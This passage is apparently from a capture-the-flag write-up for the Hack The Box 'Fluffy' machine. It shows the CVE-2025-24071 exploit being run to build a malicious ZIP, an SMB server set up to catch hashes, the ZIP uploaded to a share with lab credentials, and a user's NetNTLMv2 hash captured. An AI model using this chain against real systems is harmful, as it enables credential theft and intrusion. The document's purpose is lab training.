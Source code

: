 ### 🧪 Exploitation

#### 🐞 CVE-2025-24071

The exploit was executed and it created a malicious file under `output/malicious.zip`.  The instructions said that I should start a SMB server to catch the NTLM hashes of anyone who accessed the malicious file on the server.  Lastly, I had to upload the malicious file to the server.  Luckily the supplied user had `WRITE` permissions to the `IT` share...

```
fcoomans@kali:~/htb/fluffy$ python 52310.py -i 10.10.14.113
[*] Generating malicious .library-ms file...
[+] Created ZIP: output/malicious.zip
[-] Removed intermediate .library-ms file
[!] Done. Send ZIP to victim and listen for NTLM hash on your SMB server.
```

The `impacket-smbserver` was started, but `responder` would also have done the trick.

```
fcoomans@kali:~/htb/fluffy$ impacket-smbserver -smb2support share share
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

I connected at the `IT` share and uploaded the `malicious.zip` file to the share.

```
fcoomans@kali:~/htb/fluffy$ impacket-smbclient 'fluffy/j.fleischman:J0elTHEM4n1990!@dc01.fluffy.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# use IT
# put output/malicious.zip
# ls
drw-rw-rw-          0  Tue Jul 15 17:47:55 2025 .
drw-rw-rw-          0  Tue Jul 15 17:47:55 2025 ..
drw-rw-rw-          0  Fri May 16 16:51:49 2025 Everything-1.4.1.1026.x64
-rw-rw-rw-    1827464  Fri May 16 16:51:49 2025 Everything-1.4.1.1026.x64.zip
drw-rw-rw-          0  Fri May 16 16:51:49 2025 KeePass-2.58
-rw-rw-rw-    3225346  Fri May 16 16:51:49 2025 KeePass-2.58.zip
-rw-rw-rw-        326  Tue Jul 15 17:47:55 2025 malicious.zip
-rw-rw-rw-     169963  Sat May 17 16:31:07 2025 Upgrade_Notice.pdf
```

The `impacket-smbserver` then started receiving the NetNTLMv2 hash for user `p.agila` as that user accessed the ZIP file in the share.

```
fcoomans@kali:~/htb/fluffy$ impacket-smbserver -smb2support share share
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.69,60218)
[*] AUTHENTICATE_MESSAGE (FLUFFY\p.agila,DC01)
[*] User DC01\p.agila authenticated successfully
```